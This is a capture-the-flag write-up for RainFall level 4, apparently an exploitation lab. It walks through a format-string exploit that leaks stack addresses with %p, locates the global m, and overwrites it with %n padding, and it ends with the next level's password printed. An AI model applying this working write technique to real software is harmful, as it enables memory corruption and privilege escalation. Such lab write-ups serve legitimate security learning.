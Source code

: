 # Level 4

```asm
0x08048465      89442408       mov dword [stream], eax     ; FILE *stream
0x08048469      c74424040002.  mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
0x08048471      8d85f8fdffff   lea eax, [s]
0x08048477      890424         mov dword [esp], eax        ; char *s
0x0804847a      e8d1feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x0804847f      8d85f8fdffff   lea eax, [s]
0x08048485      890424         mov dword [esp], eax        ; char *format
0x08048488      e8b7ffffff     call sym.p
0x0804848d      a110980408     mov eax, dword [obj.m]      ; [0x8049810:4]=0
0x08048492      3d44550201     cmp eax, 0x1025544
0x08048497      750c           jne 0x80484a5
```

We can see that we need to change the value of the global variable `m` to `0x1025544`, `16930116` in decimal, we can't just add this number of bytes in the buffer and write that with `%n`, because that results in a broken pipe.

## Exploiting the pointer

```shell
level4@RainFall:~$ ./level4 <<< `python -c 'print "0000" + "%p "* 15'`
00000xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520
level4@RainFall:~$ ./level4 <<< `python -c 'print "0000" + "%p "* 12'`
00000xb7ff26b0 0xbffff764 0xb7fd0ff4 (nil) (nil) 0xbffff728 0x804848d 0xbffff520 0x200 0xb7fd1ac0 0xb7ff37d0 0x30303030
```

We can see that the our buffer is 12 addresses in, let's simplify our format string:
```shell
level4@RainFall:~$ echo '0000%12$p' | ./level4
00000x30303030
```

Ok, let's now find the address of `m` and insert it into our format string.
```shell
level4@RainFall:~$ objdump -t ./level4 | grep '.bss'
08049804 l    d  .bss   00000000              .bss
08049808 l     O .bss   00000001              completed.6159
0804980c l     O .bss   00000004              dtor_idx.6161
08049804 g     O .bss   00000004              stdin@@GLIBC_2.0
08049810 g     O .bss   00000004              m 			# here
08049804 g       *ABS*  00000000              __bss_start
level4@RainFall:~$ ./level4 <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%12$p"'`
0x8049810
```

## Lotta numbers

We can just use printf padding to add any number of characters we want, let's use that to get `m` to the right value:
```shell
(I put a breakpoint at `0x08048497`, on the `jne` instruction)
(gdb) r <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544)) + "%12$n"'`
[...]
Breakpoint 2, 0x08048497 in n ()
(gdb) p/x $eax
$14 = 0x1025548
(gdb) p $eax - 0x1025544
$15 = 4
```

Okay, let's try again but this time substracting -4 to our padding as we saw before
```shell
(gdb) r <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544-4)) + "%12$n"'`
[...]
/bin/cat: /home/user/level5/.pass: Permission denied
[Inferior 1 (process 19005) exited normally]
```
Bingo! Now outside of gdb

```shell
level4@RainFall:~$ ./level4 <<< `python -c 'import struct; print struct.pack("<Q", 0x08049810) + "%{}p".format(str(0x1025544-4)) + "%12$n"'`
[...]

                                              0xb7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
🥳


